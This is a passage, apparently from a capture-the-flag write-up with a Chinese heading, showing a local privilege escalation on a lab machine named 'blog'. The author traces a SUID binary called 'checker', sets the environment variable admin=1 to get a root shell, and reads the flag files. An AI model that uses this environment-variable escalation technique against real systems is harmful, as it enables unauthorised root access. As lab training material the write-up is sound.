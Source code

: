 $ export admin=1
export admin=1
$ ltrace checker
ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"www-data@blog:/home/bjoel$ 
```


#执行checker，成功提权到root，拿到root.txt和user.txt
```
www-data@blog:/home/bjoel$ checker
checker
root@blog:/home/bjoel# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@blog:/home/bjoel# cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
root@blog:/home/bjoel# find / -name user.txt
find / -name user.txt
/home/bjoel/user.txt
/media/usb/user.txt
find: '/proc/1457/task/1457/net': Invalid argument
find: '/proc/1457/net': Invalid argument
find: '/proc/2245/task/2245/net': Invalid argument
find: '/proc/2245/net': Invalid argument
find: '/proc/3237/task/3237/net': Invalid argument
find: '/proc/3237/net': Invalid argument
root@blog:/home/bjoel# cat /media/usb/user.txt
cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```